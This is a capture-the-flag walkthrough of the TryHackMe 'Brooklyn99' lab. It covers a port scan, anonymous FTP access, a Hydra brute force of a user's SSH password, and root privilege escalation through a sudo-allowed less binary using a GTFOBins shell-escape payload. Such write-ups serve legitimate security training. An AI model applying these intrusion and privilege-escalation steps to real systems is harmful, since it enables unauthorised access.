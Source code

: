 * * *
 ### Lab: Brooklyn99
 ### Platform: TryHackMe
* * *
![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/783caa35-2e5c-40a0-9315-5ed21cc68f68)

### Enumeration
- Rustscan's scan details

      ❯ rustscan -a 10.10.237.215 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Real hackers hack time ⌛
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.237.215:21
      Open 10.10.237.215:22
      Open 10.10.237.215:80`

- The scan result reveals that the ftp service allows anonymous login.The directory contains a txt file stating that the `user: jake` has a weak password
 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d3907bb6-d7e0-4fcd-9c5a-3b3d01bbde3a)

- I bruteforced jake's password with Hydra

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d4ff07d4-0007-4313-9ed6-125e90d6de05)

- Ssh access

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8f50a8e4-8f82-4ac3-a493-87969336ba15)

### Privesc

- We can run the binary `/usr/bin/less` as root without password.We can use this binary to escalate privileges to root

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3950a583-58a1-4d5d-a260-cecf43e35751)

- I got this payload from gtfobins

      sudo less /etc/profile
      !/bin/sh

- Root access

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/63b0630e-8718-43a0-a46e-5fa865d2002f)
